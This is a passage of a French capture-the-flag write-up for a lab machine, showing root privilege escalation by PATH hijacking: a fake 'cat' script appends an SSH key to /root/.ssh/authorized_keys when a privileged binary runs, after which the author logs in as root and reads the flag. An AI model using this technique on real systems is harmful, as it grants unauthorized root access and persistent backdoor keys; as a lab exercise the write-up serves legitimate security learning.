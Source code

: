 ```plain
```

```plain
dexter@debian:~$ ls -l /root/system.info
ls: cannot access '/root/system.info': Permission denied 
dexter@debian:~$ /opt/get_access

  ############################ 
  ########     ICA     #######
  ### ACCESS TO THE SYSTEM ###
  ############################ 

  Server Information: 
   - Firewall:  AIwall v9.5.2
   - OS:        Debian 11 "bullseye"
   - Network:   Local Secure Network 2 (LSN2) v 2.4.1

All services are disabled. Accessing to the system is allowed only within working hours.
```

Il s'agit d'une exploitation classique du PATH puisque le binaire exécute *cat* sans spécifier son chemin au complet :  

```bash
dexter@debian:~$ cat cat
#!/usr/bin/bash
mkdir -p /root/.ssh
echo "ssh-rsa --ma-cle-publique-ssh--" >> /root/.ssh/authorized_keys
dexter@debian:~$ chmod +x cat
dexter@debian:~$ export PATH=.:$PATH
dexter@debian:~$ /opt/get_access
All services are disabled. Accessing to the system is allowed only within working hours.
```

Plus qu'à récupérer notre accès :  

```plain
$ ssh root@192.168.2.9
Enter passphrase for key '/home/sirius/.ssh/id_rsa':
root@debian:~# id
uid=0(root) gid=0(root) groups=0(root)
root@debian:~# cat root.txt
ICA{Next_Generation_Self_Renewable_Genetics}
```


*Published November 23 2021 at 13:18*